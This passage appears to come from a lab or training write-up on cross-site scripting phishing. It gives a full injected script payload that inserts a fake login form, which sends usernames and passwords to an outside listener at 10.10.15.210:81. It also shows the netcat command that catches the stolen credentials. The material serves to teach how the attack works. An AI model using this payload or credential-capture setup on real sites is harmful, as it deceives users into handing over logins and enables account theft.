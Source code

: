 then we can also comment out the trailing text at the end of our form with `<!--`

![](Images/Pasted%20image%2020240124192917.png)

now our final payload looks like: 

```
'> <script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.210:81><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script> <!--
```

### Credential stealing

now that our payload is ready we need to setup our server to steal the credentials that might be passed by the user 

lets start a netcat server: 

`sudo nc -lvnp 81`

then when we login with our payload url we can see the HTTP request come through on our server: 

![](Images/Pasted%20image%2020240124195526.png)
